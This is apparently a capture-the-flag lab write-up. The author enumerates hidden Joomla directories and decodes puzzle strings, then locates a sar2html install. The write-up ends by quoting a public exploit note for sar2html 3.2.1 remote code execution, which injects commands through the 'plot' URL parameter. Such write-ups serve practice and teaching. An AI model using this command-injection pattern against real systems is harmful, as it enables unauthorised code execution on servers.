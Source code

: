 after decoding it using: https://www.oocities.org/timessquare/realm/5247/topsecret.html got the decoded message.

```
Just wanted to see if you find it. Lol. Remember: Enumeration is the key!
```

It is also a rabbit hole!!!!



when accessing:
```
TARGET_IP/joomla/_files

got:
 VjJodmNITnBaU0JrWVdsemVRbz0K
```

after decoding twice from base64:

Whopsie daisy

when accessing ````
````IP/joomla/_archive/

````


got: Mnope, nothin to see.


when accessing:

````
IP/joomla/_dabatabase
````

got following response:

Lwuv oguukpi ctqwpf.

## SUCCESS!!!

A. now trying to access the folder `/_test`
this folder contains sar2html

After googling found an exploit.

```
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```
